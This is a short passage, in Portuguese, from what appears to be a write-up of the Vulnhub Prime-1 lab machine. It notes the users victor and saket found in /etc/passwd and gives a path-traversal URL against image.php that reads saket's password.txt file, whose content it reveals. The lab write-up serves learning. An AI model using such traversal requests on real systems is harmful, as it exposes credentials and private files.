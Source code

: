 ![](/assets/img/Vulnhub/Prime-1/etc-passwd.png)

> Verificando os usuarios nao padrao do sistema temos dois, **victor** e **saket**.

> No usuario saket tem uma dica no nome dele, **find password.txt file in my directory**


* O conteudo do aquivo **password.txt** e `follow_the_ippsec`

```
http://192.168.150.113/image.php?secrettier360=../../../../../../home/saket/password.txt
```
